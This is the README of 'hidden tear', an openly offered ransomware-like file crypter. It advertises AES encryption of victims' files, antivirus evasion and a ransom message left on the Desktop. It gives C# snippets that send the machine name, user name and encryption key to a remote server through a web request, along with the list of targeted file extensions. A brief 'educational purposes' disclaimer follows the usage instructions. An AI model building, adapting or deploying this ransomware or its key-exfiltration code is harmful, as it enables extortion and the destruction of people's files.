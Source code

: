          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (12 KB)
* Doesn't detected to antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server which supports scripting languages like php,python etc. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/hidden-tear/write.php?info=";`

* The script should writes the GET parameter to a text file. Sending process running in `SendPassword()` function

  ```
  string info = computerName + "-" + userName + " " + password;
  var fullUrl = targetURL + info;
  var content = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.
